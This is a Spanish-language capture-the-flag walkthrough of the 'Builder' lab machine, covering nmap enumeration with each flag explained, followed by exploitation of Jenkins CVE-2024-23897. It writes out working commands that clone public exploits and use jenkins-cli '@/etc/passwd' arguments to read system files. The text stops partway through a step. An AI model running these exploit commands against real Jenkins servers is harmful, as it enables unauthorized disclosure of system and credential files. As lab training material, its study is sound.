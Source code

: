 
---
# Resolución de la maquina **BUILDER**
---

- Empezamos creando nuestras carpetas que contengan nuestros registros de nmap, scripts, exploits, content.
```
mkt
```

- Ingresamos a nuestra carpeta de nmap y realizamos un ping y escaneo a la red.
```
ping -c 1 10.10.11.10
```
- Con el siguiente comando registraremos la información en el archivo allPorts
```
nmap -p- -sS --open --min-rate 5000 -vvv -n -Pn 10.10.11.10 -oG allPorts
```

Desglosemos la línea de comandos:

1. `nmap`: Este es el comando principal que invoca Nmap, una herramienta de código abierto para la exploración de redes y auditoría de seguridad.
    
2. `-p-`: Esto le dice a Nmap que escanee todos los puertos (1-65535). El guion ("dash") indica un rango de puertos.
    
3. `-sS`: Especifica el tipo de escaneo a realizar, en este caso, un escaneo de tipo TCP SYN (SYN scan). Este tipo de escaneo envía un paquete SYN al puerto de destino y espera una respuesta SYN/ACK si el puerto está abierto.
    
4. `--open`: Esta opción indica a Nmap que solo muestre los puertos que están abiertos en el escaneo.
    
5. `--min-rate 5000`: Esto establece la velocidad mínima de envío de paquetes. En este caso, se están enviando al menos 5000 paquetes por segundo.
    
6. `-vvv`: Esta opción activa el modo de verbosidad máximo, lo que significa que Nmap proporcionará una salida muy detallada, mostrando incluso información de depuración adicional.
    
7. `-n`: Indica a Nmap que no realice resolución de DNS inversa en las direcciones IP encontradas durante el escaneo.
    
8. `-Pn`: Esta opción le dice a Nmap que no realice la detección de hosts, lo que significa que no intentará determinar si el host objetivo está activo antes de realizar el escaneo.
    
9. `10.10.11.10`: Esta es la dirección IP del host que se va a escanear.
    
10. `-oG allPorts`: Especifica el formato de salida del escaneo. En este caso, la opción `-oG` genera una salida en formato "greppable" que puede ser procesada posteriormente con herramientas como grep. El archivo de salida se llamará "allPorts".

- Ahora con la herramienta **extractPorts** usamos el archivo grepeaple.
```
extractPorts allPorts
```

- Realizamos un escaneo con **nmap** a los puertos detectados en la dirección ip destino.
```
nmap -p22,8080 -sCV 10.10.11.10 -oN targeted 
```

- `-p22,8080`: Esta opción especifica los puertos que se van a escanear. En este caso, se están escaneando los puertos 22 (utilizado comúnmente para SSH) y 8080 (a menudo utilizado para servicios web alternativos u otros fines).
    
- `-sC`: Esta opción activa el script predeterminado de escaneo y detección de versiones. Esto significa que Nmap ejecutará una serie de scripts integrados para detectar versiones de servicios y obtener información adicional sobre ellos.
    
- `-sV`: Esta opción solicita a Nmap que realice la detección de versiones en los servicios que descubre durante el escaneo de puertos. Esto significa que intentará determinar qué versiones de software están siendo ejecutadas en los puertos abiertos.
    
- `10.10.11.10`: Esta es la dirección IP del objetivo que se está escaneando. En este caso, el escaneo de puertos y servicios se realizará en el dispositivo con la dirección IP 10.10.11.10.
    
- `-oN targeted`: Esta opción especifica el formato y el nombre del archivo de salida del escaneo. En este caso, el resultado se guardará en un archivo llamado "targeted" en un formato específico que se puede procesar posteriormente.

- Ya con esta información podríamos investigar mas con la información que nos muestra con la versión del Ubuntu
**OpenSSH 8.9p1 Ubuntu 3ubuntu0.6**
- Investigando con la página **launchpad** nos damos cuenta que estamos con la versión Jammy de Ubuntu 
**JAMMY**
- El siguiente comando nos permite ver el contenido de manera java 
```
cat targeted -l java
```

- A continuación empezamos a utilizar la herramienta **whatweb**
```
whatweb http://10.10.11.10:8080
```

- Con el siguiente comando podemos escanear las directorios existentes con la herramienta de **nmap**
```
nmap --script http-enum -p8080 10.10.11.10 -oN webScan
```

- `--script http-enum`: Esta opción indica a Nmap que ejecute el script `http-enum` durante el escaneo. Este script se utiliza para identificar y enumerar recursos y directorios en un servidor web que responde a peticiones HTTP. La enumeración de estos recursos puede revelar información sobre la estructura del sitio web y posiblemente exponer puntos de entrada para posibles vulnerabilidades.
    
- `-p8080`: Esta opción especifica el puerto que se va a escanear. En este caso, estás escaneando el puerto 8080, que es comúnmente utilizado para servidores web alternativos o servicios web adicionales.
    
- `10.10.11.10`: Esta es la dirección IP del objetivo que se está escaneando. En este caso, el escaneo se realizará en el dispositivo con la dirección IP 10.10.11.10.
	
- `-oN`: Esta es una opción de Nmap que se utiliza para especificar el formato y el nombre del archivo de salida del escaneo.
    
- `webScan`: Este es el nombre del archivo de salida donde se guardarán los resultados del escaneo. En este caso, el archivo se llamará "webScan".

- A continuación podemos empezar a investigar la pagina web montada en el puerto 8080
- Vemos que es una pagina de **Jenkins** y podemos buscar en el navegador **default password** como **admin/password**
- Podemos observar la versión de **Jenkins** en la parte inferior y con esto podemos averiguar en internet un exploit en caso de que este desactualizado 
- Analizamos la pagina y encontramos que tiene información de usuarios pero no da mas información, así que nos dirigimos a nuestra carpeta de scripts
- Nos clonamos el repositorio de CVE-2024-23897
```
git clone https://github.com/h4x0r-dz/CVE-2024-23897.git
```
- Si realizamos un cat al archivo **CVE-2024-23897.py** podemos analizar un poco del script a utilizar 

- Utilizamos la siguiente linea para observar información en ciertas rutas
```
python3 CVE-2024-23897.py -u http://10.10.11.10:8080 -f /etc/group
```
- En ocasiones toca volver a enviar la petición para que muestre otros resultados

- Tambien tenemos otro exploit que nos trae de local el recurso
```
git clone https://github.com/CKevens/CVE-2024-23897.git
```

- Con este comando podemos ejecutar whoami por ejemplo
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 who-am-i
```

- Si queremos leer archivos de una ruta podemos utilizar 
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help @/etc/passwd
```

- Con este comando podemos enlistar mas información detallada
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 connect-node @/etc/passwd
```

 - El comando ejecuta cada comando disponible en Jenkins, intenta obtener `/etc/passwd` con cada uno, y muestra el recuento de líneas de salida de cada intento.
```
for command in $(java -jar jenkins-cli.jar -s http://10.10.11.10:8080 help 2>&1 | grep -v "    " | xargs | tr ' ' '\n'); do echo "[+] Para el comando $command: $(java -jar jenkins-cli.jar -s http://10.10.11.10:8080 $command @/etc/passwd 2>&1 | wc -l)"; done
```

- Despues de ver cual nos devuelve mas lineas, realizamos el siguiente comando para ver las rutas de cada nombre como **root, www-data, etc**
```
java -jar jenkins-cli.jar -s http://10.10.11.10:8080 delete-job @/etc/passwd 2>&1 | grep -oP "'.*?'"
```


- Si no funciona de esa manera abrimos el burpsuite para ver un poco mas de información 
```
burpsuite &> /dev/null & disown
```
- En las configuraciones del proxy editamos en la ip el host de la pagina que vamos a utilizar con el puerto designado

- Nos clonamos 